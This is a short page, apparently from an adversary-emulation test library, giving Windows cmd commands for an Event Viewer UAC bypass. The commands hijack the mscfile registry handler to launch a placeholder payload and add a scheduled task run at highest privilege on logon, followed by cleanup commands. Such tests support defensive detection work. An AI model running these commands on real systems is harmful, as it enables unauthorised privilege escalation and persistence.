 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKEY_CURRENT_USER\Software\Classes\mscfile\shell\open\command" /ve /t REG_EXPAND_SZ /d "c:\windows\System32\#{payload}" /f
schtasks /Create /TN "#{task_name}" /TR "eventvwr.msc" /SC ONLOGON /RL HIGHEST /F
ECHO Let's run the schedule task ...
schtasks /Run /TN "EventViewerBypass"
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Software\Classes\mscfile\shell\open\command" /f
schtasks /Delete /TN "#{task_name}" /F
```





<br/>